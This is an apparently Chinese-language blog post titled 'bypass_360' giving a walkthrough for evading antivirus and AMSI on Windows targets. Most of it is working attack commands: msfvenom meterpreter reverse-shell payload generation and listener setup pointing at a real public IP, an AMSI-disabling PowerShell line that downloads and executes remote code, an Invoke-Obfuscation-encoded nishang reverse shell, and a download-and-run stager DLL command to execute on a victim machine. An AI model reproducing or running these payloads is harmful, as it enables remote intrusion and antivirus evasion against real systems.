 ```yaml
---
layout:     post
title:      bypass_360
date:       2019-1-13
author:     Wh0ale
header-img: img/1.jpg
catalog: true
tags:
    - bypass
---
```




# 0x01 AMSI_bypass

 **1.生成shellcode放入apache服务器中**

```
msfvenom -a x64 -plateform windows -p windows/x64/meterpreter/reverse_tcp lhost=118.25.69.199 lport=4444 -f psh -o shellcode.txt 
```

**2.msfconsole开始监听**

```bash
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp

msf exploit(multi/handler) > set lhost 118.25.69.199

lhost => 192.168.211.179

msf exploit(multi/handler) > set lport 4444

lport => 4444

msf exploit(multi/handler) > run
```

**3.在目标机器执行powershell**

```
[ScriptBlock]."Get`Fiel`d"('signatures','N'+'onPublic,Static').SetValue($NULL,(New-Object Collections.Generic.HashSet[string]));
     $e=new-object net.webclient;
     $e.proxy=[Net.WebRequest]::GetSystemWebProxy();
     $e.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;
     IEX $e.downloadstring('http://118.25.69.199/shellcode/9988.txt')
```

 

**4.拿到shell**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3kzc2zdyj20zw082wh5.jpg)

 

# 0x02 Invoke-Obfuscation.psd1

![enter description here](file:///C:/Users/49974/AppData/Local/Temp/msohtmlclip1/01/clip_image003.png)

 ```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
 ```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l0gc3gwj20hs0c63yr.jpg)

 ```powershell
Invoke-Obfuscation> set ScriptBlock ls

Invoke-Obfuscation> ENCODING

Invoke-Obfuscation\Encoding> 2
 ```

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l0zh7chj20ig0dnmxf.jpg)

生成混淆payload：

```powershell
Invoke-Obfuscation> set ScriptBlock . F:\Privilege\nishang-master\Shells\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddres 192.168.211.179 -Port 4444
```

```
Invoke-Obfuscation> encoding

Invoke-Obfuscation\Encoding> 2
```

编码后如下：

```
 & ( $eNV:ComsPec[4,15,25]-JOin'')(( '73T65T74{20!53J63!72Z69J70y74y42w6cT6fy63{6bJ20Z2e;20w46{3aT5cw50!72y69;76w69J6c;65!67{65;5cJ6e!69Z73J68;61w6eZ67!2d;6dy61T73;74J65;72T5cJ53Z68J65w6c!6cT73T5c{49J6ew76y6fy6b{65w2dZ50!6f{77w65T72J53y68;65T6cw6cT54y63!70w2e!70Z73{31{3b{20{49J6e!76Z6fy6bT65T2dJ50w6f!77!65;72;53!68J65y6cw6cZ54T63!70!20;2dJ52J65w76Z65y72w73w65!20!2d;49Z50T41T64J64!72w65T73T20{31;31;38J2ey32J35{2e;36{39!2e;31w39Z39!20Z2d!50!6fT72!74{20T34J34J34Z34' -spLiT'J'-SPlIt';' -spLIt'!'-SPlIT'y' -SPliT '{' -SPLIt 'w' -SPLIT 'T' -Split'Z'|%{([chAr] ([CoNVerT]::toiNt16(( $_.TOstRiNg()),16 ) ))}) -JOiN'')


```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l3yess7j20pn05kaa6.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l4f4h62j20zk0qx10g.jpg)

 



# 0x03  stager.dll-master

 meterpreter.rc

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l5wtadsj20uw0fjduq.jpg)

启动msf5

```
./msfconsole -r ./stager.dll -master/meterpreter.rc
```

生成payload：

```
./msfvenom -p windows/meterpreter/reverse_tcp_rc4 EXIT_FUNC=PROCESS LHOST-192.168.211.179 LPORT=443 RC4PASSWORD=GeekIsChic --encrypt aes256 --encrypt-iv E7a0eCX76F0YzS4j --encrypt-key 6ASMkFslyhwXehNZw048cF1Vh1ACzyyR -f c -o /tmp/meterpreter.c
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l7f5ba2j20iw05m76m.jpg)

生成exp：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l80v1dij20el0b5jry.jpg)

靶机执行

```bash
rundll32 stager.dll,Exec
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l9buhhjj211x0buwsa.jpg)

②dll放入服务器

```
$file = $env:temp+'\'+(Get-Random)+'.dll'; (New-Object System.Net.WebClient).DownloadFile('http://192.168.211.179/Privilege/stager.dll',$file); $exec = New-Object -com shell.application; $exec.shellexecute('rundll32',$file+',Exec');
```

powershell混淆

```
cd Invoke-Obfuscation && powershell -exec bypass -c "Import-Module ./Invoke-Obfuscation.psd1;Invoke-Obfuscation"
```

混淆这条命令

```
$file = $env:temp+'\'+(Get-Random)+'.dll'; (New-Object System.Net.WebClient).DownloadFile('http://外网ip/stager.dll',$file); $exec = New-Object -com shell.application; $exec.shellexecute('rundll32',$file+',Exec');
```

然后再对方主机powershell执行

由此可以免杀

<https://github.com/phackt/stager.dll>



reference:
<http://www.secist.com/archives/7195.html?tdsourcetag=s_pctim_aiomsg>

[求助\] Apache 2.2.14 mod_isapi Dangling Pointer漏洞用法](https://bbs.silic.wiki/thread-3039-1-1.html)

[我的shellcode编写之路](http://www.secist.com/archives/4809.html)

[渗透攻防工具篇-后渗透阶段的Meterpreter](https://paper.seebug.org/29/)

